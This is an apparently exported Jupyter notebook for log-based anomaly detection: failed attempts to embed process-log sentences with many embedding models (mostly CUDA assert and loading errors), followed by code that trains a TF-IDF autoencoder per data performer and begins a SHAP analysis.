c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\tqdm\auto.py:21: TqdmWarning: IProgress not found. Please update jupyter and ipywidgets. See https://ipywidgets.readthedocs.io/en/stable/user_install.html
  from .autonotebook import tqdm as notebook_tqdm


Device: cuda

Loading master dataset …
Done.


  PERFORMER: 5DIR
   Resumed from checkpoint_5dir.csv

   Loading BGE-M3 …


[transformers] `torch_dtype` is deprecated! Use `dtype` instead!
Loading weights: 100%|██████████| 391/391 [00:00<00:00, 448.17it/s]


      [ProcessAll] Embeddings: (2238, 1024)
      [ProcessEvent] Embeddings: (2238, 1024)
      [ProcessExec] Embeddings: (2223, 1024)
      [ProcessParent] Embeddings: (2206, 1024)
      [ProcessNetflow] Embeddings: (69, 1024)
      [!] Baseline [ProcessAll]: Error(s) in loading state_dict for VanillaAE:
	Missing key(s) in state_dict: "enc.0.weight", "enc.0.bias", "enc.2.weight", "enc.2.bias", "dec.0.weight", "dec.0.bias", "dec.2.weight", "dec.2.bias". 
	Unexpected key(s) in state_dict: "encoder.0.weight", "encoder.0.bias", "encoder.2.weight", "encoder.2.bias", "decoder.0.weight", "decoder.0.bias", "decoder.2.weight", "decoder.2.bias". 
      [!] Baseline [ProcessEvent]: Error(s) in loading state_dict for VanillaAE:
	Missing key(s) in state_dict: "enc.0.weight", "enc.0.bias", "enc.2.weight", "enc.2.bias", "dec.0.weight", "dec.0.bias", "dec.2.weight", "dec.2.bias". 
	Unexpected key(s) in state_dict: "encoder.0.weight", "encoder.0.bias", "encoder.2.weight", "encoder.2.bias", "decoder.0.

A matching Triton is not available, some optimizations will not be enabled
Traceback (most recent call last):
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\xformers\__init__.py", line 57, in _is_triton_available
    import triton  # noqa
    ^^^^^^^^^^^^^
ModuleNotFoundError: No module named 'triton'
Loading weights: 100%|██████████| 268/268 [00:00<00:00, 412.55it/s]
[transformers] `use_return_dict` is deprecated! Use `return_dict` instead!


      [!] Batch 0 error: CUDA error: device-side assert triggered
Search for `cudaErrorAssert' in https://docs.nvidia.com/cuda/cuda-runtime-api/group__CUDART__TYPES.html for more information.
CUDA kernel errors might be asynchronously reported at some other API call, so the stacktrace below might be incorrect.
For debugging consider passing CUDA_LAUNCH_BLOCKING=1
Compile with `TORCH_USE_CUDA_DSA` to enable device-side assertions.

      [!] CUDA context died mid-batch — aborting.
      [ProcessAll] Embedding failed.
      [!] CUDA dead before embedding ProcessEvent — stopping contexts for GTE-Large-v1.5.
   [!] CUDA poisoned after unloading GTE-Large-v1.5 — saving and skipping.

   Loading MPNet …


Loading weights: 100%|██████████| 199/199 [00:00<00:00, 1134.89it/s]


   [!] Could not load MPNet: CUDA error: device-side assert triggered
Search for `cudaErrorAssert' in https://docs.nvidia.com/cuda/cuda-runtime-api/group__CUDART__TYPES.html for more information.
CUDA kernel errors might be asynchronously reported at some other API call, so the stacktrace below might be incorrect.
For debugging consider passing CUDA_LAUNCH_BLOCKING=1
Compile with `TORCH_USE_CUDA_DSA` to enable device-side assertions.


   Loading Contriever …


Traceback (most recent call last):
  File "C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_21752\1460585353.py", line 568, in <module>
    tok, embedder = load_llm(llm_key, cfg)
                    ^^^^^^^^^^^^^^^^^^^^^^
  File "C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_21752\1460585353.py", line 355, in load_llm
    model = AutoModel.from_pretrained(cfg["path"], **hf_kw).to(DEVICE)
            ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\transformers\modeling_utils.py", line 3650, in to
    return super().to(*args, **kwargs)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\torch\nn\modules\module.py", line 1381, in to
    return self._apply(convert)
           ^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages

   [!] Could not load Contriever: CUDA error: device-side assert triggered
Search for `cudaErrorAssert' in https://docs.nvidia.com/cuda/cuda-runtime-api/group__CUDART__TYPES.html for more information.
CUDA kernel errors might be asynchronously reported at some other API call, so the stacktrace below might be incorrect.
For debugging consider passing CUDA_LAUNCH_BLOCKING=1
Compile with `TORCH_USE_CUDA_DSA` to enable device-side assertions.


   Loading Jina-v3 …


Traceback (most recent call last):
  File "C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_21752\1460585353.py", line 568, in <module>
    tok, embedder = load_llm(llm_key, cfg)
                    ^^^^^^^^^^^^^^^^^^^^^^
  File "C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_21752\1460585353.py", line 355, in load_llm
    model = AutoModel.from_pretrained(cfg["path"], **hf_kw).to(DEVICE)
            ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\transformers\modeling_utils.py", line 3650, in to
    return super().to(*args, **kwargs)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\torch\nn\modules\module.py", line 1381, in to
    return self._apply(convert)
           ^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages

   [!] Could not load Jina-v3: attribute name must be string, not 'torch.dtype'

   Loading Nomic …


Traceback (most recent call last):
  File "C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_21752\1460585353.py", line 568, in <module>
    tok, embedder = load_llm(llm_key, cfg)
                    ^^^^^^^^^^^^^^^^^^^^^^
  File "C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_21752\1460585353.py", line 355, in load_llm
    model = AutoModel.from_pretrained(cfg["path"], **hf_kw).to(DEVICE)
            ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\transformers\models\auto\auto_factory.py", line 339, in from_pretrained
    config, kwargs = AutoConfig.from_pretrained(
                     ^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\transformers\models\auto\configuration_auto.py", line 395, in from_pretrained
    return config_class.from_pretrained(pretrained_model_name_or_path, **kwargs)
           ^^

   [!] Could not load Nomic: CUDA error: device-side assert triggered
Search for `cudaErrorAssert' in https://docs.nvidia.com/cuda/cuda-runtime-api/group__CUDART__TYPES.html for more information.
CUDA kernel errors might be asynchronously reported at some other API call, so the stacktrace below might be incorrect.
For debugging consider passing CUDA_LAUNCH_BLOCKING=1
Compile with `TORCH_USE_CUDA_DSA` to enable device-side assertions.


   Loading ModernBERT …


Loading weights: 100%|██████████| 170/170 [00:00<00:00, 3580.99it/s]
[transformers] ModernBertModel LOAD REPORT from: answerdotai/ModernBERT-large
Key               | Status     |  | 
------------------+------------+--+-
head.dense.weight | UNEXPECTED |  | 
head.norm.weight  | UNEXPECTED |  | 
decoder.bias      | UNEXPECTED |  | 

Notes:
- UNEXPECTED:	can be ignored when loading from different task/architecture; not ok if you expect identical arch.


      [!] CUDA dead before embedding ProcessAll — stopping contexts for ModernBERT.
   [!] CUDA poisoned after unloading ModernBERT — saving and skipping.

   Loading NV-Embed-v2 …
   [!] Could not load NV-Embed-v2: Some modules are dispatched on the CPU or the disk. Make sure you have enough GPU RAM to fit the quantized model. If you want to dispatch the model on the CPU or the disk while keeping these modules in 32-bit, you need to set `llm_int8_enable_fp32_cpu_offload=True` and pass a custom `device_map` to `from_pretrained`. Check https://huggingface.co/docs/transformers/main/en/main_classes/quantization#offload-between-cpu-and-gpu for more details. 

   Loading Qwen2-7B …


Traceback (most recent call last):
  File "C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_21752\1460585353.py", line 568, in <module>
    tok, embedder = load_llm(llm_key, cfg)
                    ^^^^^^^^^^^^^^^^^^^^^^
  File "C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_21752\1460585353.py", line 344, in load_llm
    model = AutoModel.from_pretrained(cfg["path"], **hf_kw)
            ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\transformers\models\auto\auto_factory.py", line 390, in from_pretrained
    return model_class.from_pretrained(
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\transformers\modeling_utils.py", line 4225, in from_pretrained
    device_map = _get_device_map(model, device_map, max_memory, hf_quantizer)
                 ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

   [!] Could not load Qwen2-7B: 'Qwen2Config' object has no attribute 'rope_theta'

   Loading E5-Mistral …


Traceback (most recent call last):
  File "C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_21752\1460585353.py", line 568, in <module>
    tok, embedder = load_llm(llm_key, cfg)
                    ^^^^^^^^^^^^^^^^^^^^^^
  File "C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_21752\1460585353.py", line 344, in load_llm
    model = AutoModel.from_pretrained(cfg["path"], **hf_kw)
            ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\transformers\models\auto\auto_factory.py", line 390, in from_pretrained
    return model_class.from_pretrained(
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\transformers\modeling_utils.py", line 4201, in from_pretrained
    model = cls(config, *model_args, **model_kwargs)
            ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "C:\Users\MOHAMMEDWALEEDK

      [!] CUDA dead before embedding ProcessAll — stopping contexts for E5-Mistral.
   [!] CUDA poisoned after unloading E5-Mistral — saving and skipping.

   Loading SFR-Mistral …


Loading weights: 100%|██████████| 290/290 [03:50<00:00,  1.26it/s]


      [!] CUDA dead before embedding ProcessAll — stopping contexts for SFR-Mistral.
   [!] CUDA poisoned after unloading SFR-Mistral — saving and skipping.

   Loading Linq-Mistral …


Loading weights: 100%|██████████| 290/290 [03:48<00:00,  1.27it/s]


      [!] CUDA dead before embedding ProcessAll — stopping contexts for Linq-Mistral.
   [!] CUDA poisoned after unloading Linq-Mistral — saving and skipping.

   Loading LLM2Vec-Llama3 …


Loading weights: 100%|██████████| 290/290 [03:54<00:00,  1.24it/s]
[transformers] LlamaModel LOAD REPORT from: meta-llama/Meta-Llama-3-8B-Instruct
Key            | Status     |  | 
---------------+------------+--+-
lm_head.weight | UNEXPECTED |  | 

Notes:
- UNEXPECTED:	can be ignored when loading from different task/architecture; not ok if you expect identical arch.
Traceback (most recent call last):
  File "C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_21752\1460585353.py", line 568, in <module>
    tok, embedder = load_llm(llm_key, cfg)
                    ^^^^^^^^^^^^^^^^^^^^^^
  File "C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_21752\1460585353.py", line 344, in load_llm
    model = AutoModel.from_pretrained(cfg["path"], **hf_kw)
            ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\transformers\models\auto\auto_factory.py", line 405, in from_pretrained
    r

   [!] Could not load LLM2Vec-Llama3: cannot import name '_maybe_shard_state_dict_for_tp' from 'peft.utils.save_and_load' (c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\peft\utils\save_and_load.py)

   Loading GTR-T5-Large …


Loading weights: 100%|██████████| 195/195 [00:00<00:00, 1606.57it/s]
[transformers] T5Model LOAD REPORT from: sentence-transformers/gtr-t5-large
Key                                                                  | Status  | 
---------------------------------------------------------------------+---------+-
decoder.block.{0...23}.layer.0.SelfAttention.v.weight                | MISSING | 
decoder.block.{0...23}.layer.{0, 1, 2}.layer_norm.weight             | MISSING | 
decoder.block.{0...23}.layer.0.SelfAttention.k.weight                | MISSING | 
decoder.block.{0...23}.layer.1.EncDecAttention.q.weight              | MISSING | 
decoder.block.{0...23}.layer.2.DenseReluDense.wi.weight              | MISSING | 
decoder.block.{0...23}.layer.2.DenseReluDense.wo.weight              | MISSING | 
decoder.block.{0...23}.layer.1.EncDecAttention.v.weight              | MISSING | 
decoder.block.{0...23}.layer.1.EncDecAttention.o.weight              | MISSING | 
decoder.block.{0...23}.layer.0.Self

   [!] Could not load GTR-T5-Large: CUDA error: device-side assert triggered
Search for `cudaErrorAssert' in https://docs.nvidia.com/cuda/cuda-runtime-api/group__CUDART__TYPES.html for more information.
CUDA kernel errors might be asynchronously reported at some other API call, so the stacktrace below might be incorrect.
For debugging consider passing CUDA_LAUNCH_BLOCKING=1
Compile with `TORCH_USE_CUDA_DSA` to enable device-side assertions.


   Loading UAE-Large …


Loading weights: 100%|██████████| 391/391 [00:00<00:00, 792.21it/s]


   [!] Could not load UAE-Large: CUDA error: device-side assert triggered
Search for `cudaErrorAssert' in https://docs.nvidia.com/cuda/cuda-runtime-api/group__CUDART__TYPES.html for more information.
CUDA kernel errors might be asynchronously reported at some other API call, so the stacktrace below might be incorrect.
For debugging consider passing CUDA_LAUNCH_BLOCKING=1
Compile with `TORCH_USE_CUDA_DSA` to enable device-side assertions.


   Loading Stella-400M …


Traceback (most recent call last):
  File "C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_21752\1460585353.py", line 568, in <module>
    tok, embedder = load_llm(llm_key, cfg)
                    ^^^^^^^^^^^^^^^^^^^^^^
  File "C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_21752\1460585353.py", line 355, in load_llm
    model = AutoModel.from_pretrained(cfg["path"], **hf_kw).to(DEVICE)
            ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\transformers\modeling_utils.py", line 3650, in to
    return super().to(*args, **kwargs)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\torch\nn\modules\module.py", line 1381, in to
    return self._apply(convert)
           ^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages

   [!] Could not load Stella-400M: CUDA error: device-side assert triggered
Search for `cudaErrorAssert' in https://docs.nvidia.com/cuda/cuda-runtime-api/group__CUDART__TYPES.html for more information.
CUDA kernel errors might be asynchronously reported at some other API call, so the stacktrace below might be incorrect.
For debugging consider passing CUDA_LAUNCH_BLOCKING=1
Compile with `TORCH_USE_CUDA_DSA` to enable device-side assertions.


   Generating heatmap for 5DIR …
   No data — skipping heatmap.

  PERFORMER: CADETS
   Resumed from checkpoint_cadets.csv

   Loading BGE-M3 …


Loading weights: 100%|██████████| 391/391 [00:00<00:00, 451.37it/s]


   [!] Could not load BGE-M3: CUDA error: device-side assert triggered
Search for `cudaErrorAssert' in https://docs.nvidia.com/cuda/cuda-runtime-api/group__CUDART__TYPES.html for more information.
CUDA kernel errors might be asynchronously reported at some other API call, so the stacktrace below might be incorrect.
For debugging consider passing CUDA_LAUNCH_BLOCKING=1
Compile with `TORCH_USE_CUDA_DSA` to enable device-side assertions.


   Loading GTE-Large-v1.5 …


Traceback (most recent call last):
  File "C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_21752\1460585353.py", line 568, in <module>
    tok, embedder = load_llm(llm_key, cfg)
                    ^^^^^^^^^^^^^^^^^^^^^^
  File "C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_21752\1460585353.py", line 355, in load_llm
    model = AutoModel.from_pretrained(cfg["path"], **hf_kw).to(DEVICE)
            ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\transformers\modeling_utils.py", line 3650, in to
    return super().to(*args, **kwargs)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\torch\nn\modules\module.py", line 1381, in to
    return self._apply(convert)
           ^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages

   [!] Could not load GTE-Large-v1.5: CUDA error: device-side assert triggered
Search for `cudaErrorAssert' in https://docs.nvidia.com/cuda/cuda-runtime-api/group__CUDART__TYPES.html for more information.
CUDA kernel errors might be asynchronously reported at some other API call, so the stacktrace below might be incorrect.
For debugging consider passing CUDA_LAUNCH_BLOCKING=1
Compile with `TORCH_USE_CUDA_DSA` to enable device-side assertions.


   Loading MPNet …


Traceback (most recent call last):
  File "C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_21752\1460585353.py", line 568, in <module>
    tok, embedder = load_llm(llm_key, cfg)
                    ^^^^^^^^^^^^^^^^^^^^^^
  File "C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_21752\1460585353.py", line 355, in load_llm
    model = AutoModel.from_pretrained(cfg["path"], **hf_kw).to(DEVICE)
            ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\transformers\modeling_utils.py", line 3650, in to
    return super().to(*args, **kwargs)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\torch\nn\modules\module.py", line 1381, in to
    return self._apply(convert)
           ^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages

   [!] Could not load MPNet: CUDA error: device-side assert triggered
Search for `cudaErrorAssert' in https://docs.nvidia.com/cuda/cuda-runtime-api/group__CUDART__TYPES.html for more information.
CUDA kernel errors might be asynchronously reported at some other API call, so the stacktrace below might be incorrect.
For debugging consider passing CUDA_LAUNCH_BLOCKING=1
Compile with `TORCH_USE_CUDA_DSA` to enable device-side assertions.


   Loading Contriever …


Traceback (most recent call last):
  File "C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_21752\1460585353.py", line 568, in <module>
    tok, embedder = load_llm(llm_key, cfg)
                    ^^^^^^^^^^^^^^^^^^^^^^
  File "C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_21752\1460585353.py", line 355, in load_llm
    model = AutoModel.from_pretrained(cfg["path"], **hf_kw).to(DEVICE)
            ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\transformers\modeling_utils.py", line 3650, in to
    return super().to(*args, **kwargs)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\torch\nn\modules\module.py", line 1381, in to
    return self._apply(convert)
           ^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages

   [!] Could not load Contriever: CUDA error: device-side assert triggered
Search for `cudaErrorAssert' in https://docs.nvidia.com/cuda/cuda-runtime-api/group__CUDART__TYPES.html for more information.
CUDA kernel errors might be asynchronously reported at some other API call, so the stacktrace below might be incorrect.
For debugging consider passing CUDA_LAUNCH_BLOCKING=1
Compile with `TORCH_USE_CUDA_DSA` to enable device-side assertions.


   Loading Jina-v3 …


Traceback (most recent call last):
  File "C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_21752\1460585353.py", line 568, in <module>
    tok, embedder = load_llm(llm_key, cfg)
                    ^^^^^^^^^^^^^^^^^^^^^^
  File "C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_21752\1460585353.py", line 355, in load_llm
    model = AutoModel.from_pretrained(cfg["path"], **hf_kw).to(DEVICE)
            ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\transformers\modeling_utils.py", line 3650, in to
    return super().to(*args, **kwargs)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\torch\nn\modules\module.py", line 1381, in to
    return self._apply(convert)
           ^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages

   [!] Could not load Jina-v3: attribute name must be string, not 'torch.dtype'

   Loading Nomic …


Traceback (most recent call last):
  File "C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_21752\1460585353.py", line 568, in <module>
    tok, embedder = load_llm(llm_key, cfg)
                    ^^^^^^^^^^^^^^^^^^^^^^
  File "C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_21752\1460585353.py", line 355, in load_llm
    model = AutoModel.from_pretrained(cfg["path"], **hf_kw).to(DEVICE)
            ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\transformers\models\auto\auto_factory.py", line 339, in from_pretrained
    config, kwargs = AutoConfig.from_pretrained(
                     ^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\transformers\models\auto\configuration_auto.py", line 395, in from_pretrained
    return config_class.from_pretrained(pretrained_model_name_or_path, **kwargs)
           ^^

   [!] Could not load Nomic: CUDA error: device-side assert triggered
Search for `cudaErrorAssert' in https://docs.nvidia.com/cuda/cuda-runtime-api/group__CUDART__TYPES.html for more information.
CUDA kernel errors might be asynchronously reported at some other API call, so the stacktrace below might be incorrect.
For debugging consider passing CUDA_LAUNCH_BLOCKING=1
Compile with `TORCH_USE_CUDA_DSA` to enable device-side assertions.


   Loading ModernBERT …


Loading weights: 100%|██████████| 170/170 [00:00<00:00, 2978.24it/s]
[transformers] ModernBertModel LOAD REPORT from: answerdotai/ModernBERT-large
Key               | Status     |  | 
------------------+------------+--+-
head.dense.weight | UNEXPECTED |  | 
head.norm.weight  | UNEXPECTED |  | 
decoder.bias      | UNEXPECTED |  | 

Notes:
- UNEXPECTED:	can be ignored when loading from different task/architecture; not ok if you expect identical arch.


      [!] CUDA dead before embedding ProcessAll — stopping contexts for ModernBERT.
   [!] CUDA poisoned after unloading ModernBERT — saving and skipping.

   Loading NV-Embed-v2 …


Loading weights:  42%|████▏     | 129/304 [01:44<02:21,  1.23it/s]


KeyboardInterrupt: 

##### SHAP - `BAAI/bge-m3`

In [ ]:
import os
import pickle
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import gc
from sklearn.feature_extraction.text import TfidfVectorizer

DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# ==========================================
# 1. LOAD DATA
# ==========================================
MASTER_DATA_FILE = "all_data_with_sentences.pkl" 
with open(MASTER_DATA_FILE, "rb") as f:
    master_text_data = pickle.load(f)

TARGET_CONTEXT = "ProcessAll"
PERFORMERS = ['5dir', 'cadets', 'clearscope', 'theia', 'trace']

# ==========================================
# 2. DEFINE VANILLA AUTOENCODER MODEL
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        
        # Standard Encoder
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), 
            nn.ReLU(),
            nn.Linear(1024, 256), 
            nn.ReLU()
        )
        
        # Standard Decoder
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), 
            nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
        
    def forward(self, x):
        return self.decoder(self.encoder(x))

# ==========================================
# 3. LOOP THROUGH PERFORMERS
# ==========================================
for performer in PERFORMERS:
    print("\n" + "="*60)
    print(f"Processing Performer: {performer.upper()} | Context: {TARGET_CONTEXT}")
    
    # Check if performer and context exist in the loaded data
    if performer not in master_text_data or TARGET_CONTEXT not in master_text_data[performer]:
        print(f"[!] Warning: Data not found for {performer}. Skipping.")
        continue

    df = master_text_data[performer][TARGET_CONTEXT]

    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'

    # [MEMORY FIX] Drop massive unused columns to prevent 14GB RAM crash
    df = df[[text_col, label_col]]
    df = df.dropna(subset=[text_col]).reset_index(drop=True)

    # --- STRICT 80/20 SPLIT LOGIC ---
    normal_df = df[df[label_col] == 0]
    anomaly_df = df[df[label_col] == 1]

    train_size = int(0.8 * len(normal_df))

    # Train Set: 80% Normal logs only
    train_texts = normal_df[text_col].tolist()[:train_size]

    # Test Set: Remaining 20% Normal logs + ALL Anomalous logs
    test_texts = normal_df[text_col].tolist()[train_size:] + anomaly_df[text_col].tolist()
    test_labels = np.array([0] * (len(normal_df) - train_size) + [1] * len(anomaly_df))

    print(f"Train Set: {len(train_texts)} normal logs")
    print(f"Test Set: {len(test_texts)} logs ({len(anomaly_df)} are anomalies)")

    # ==========================================
    # --- SUPERVISOR'S TF-IDF VECTORIZATION ---
    # ==========================================
    vectorizer = TfidfVectorizer(max_features=None)
    
    # Fit ONLY on training data, then transform training data
    print("-> Fitting TF-IDF on Training Data only...")
    X_train_tfidf = vectorizer.fit_transform(train_texts).toarray()
    
    # Transform test data using the same vocabulary
    print("-> Transforming Test Data...")
    X_test_tfidf  = vectorizer.transform(test_texts).toarray()

    # Show feature names and matrices (Safely printed using shapes to prevent crashing)
    vocab = vectorizer.get_feature_names_out()
    print(f"\nVocabulary Size: {len(vocab)} words learned.")
    print(f"Train TF-IDF matrix shape: {X_train_tfidf.shape}")
    print(f"Test TF-IDF matrix shape:  {X_test_tfidf.shape}")
    
    # UNCOMMENT BELOW IF YOU REALLY WANT TO PRINT THE RAW MATRICES (Warning: Will lag notebook)
    print("Vocabulary:\n", vocab)
    print("\nTrain TF-IDF matrix:\n", X_train_tfidf)
    print("\nTest TF-IDF matrix:\n", X_test_tfidf)
    

    # --- BUILD & TRAIN PYTORCH AUTOENCODER ---
    input_dim = X_train_tfidf.shape[1]
    
    # Initialize the VanillaAE
    autoencoder = VanillaAE(input_dim).to(DEVICE)
    optimizer = torch.optim.Adam(autoencoder.parameters(), lr=0.001)
    
    # Use standard Mean Squared Error (MSE) for the vanilla architecture
    criterion = nn.MSELoss()

    # [OOM FIX] Keep tensor on CPU, only move batches to GPU
    X_train_tensor = torch.FloatTensor(X_train_tfidf)

    print(f"\nTraining Vanilla PyTorch Autoencoder on {performer.upper()} Train Set...")
    autoencoder.train()
    epochs = 50
    batch_size = 32

    for epoch in range(epochs):
        permutation = torch.randperm(X_train_tensor.size()[0])
        for i in range(0, X_train_tensor.size()[0], batch_size):
            indices = permutation[i:i+batch_size]
            
            # [OOM FIX] Move just the small batch to the GPU
            batch_x = X_train_tensor[indices].to(DEVICE)
            
            optimizer.zero_grad()
            reconstruction = autoencoder(batch_x)
            loss = criterion(reconstruction, batch_x)
            loss.backward()
            optimizer.step()
            
            # Free VRAM
            del batch_x
            
    print(f"Training Complete for {performer.upper()}.\n")
    
    # Cleanup memory before moving to the next performer
    del X_train_tfidf, X_test_tfidf, X_train_tensor, autoencoder
    gc.collect()
    torch.cuda.empty_cache()

In [ ]:
import os
import pickle
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import shap
import gc
from sklearn.feature_extraction.text import TfidfVectorizer

DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# ==========================================
# 0. INITIALIZE STORAGE DICTIONARIES
# ==========================================
all_performers_shap_values = {}
all_performers_errors = {}
all_performers_test_texts = {}
all_performers_test_labels = {}

# ==========================================
# 1. LOAD DATA
# ==========================================
MASTER_DATA_FILE = "all_data_with_sentences.pkl" 
with open(MASTER_DATA_FILE, "rb") as f:
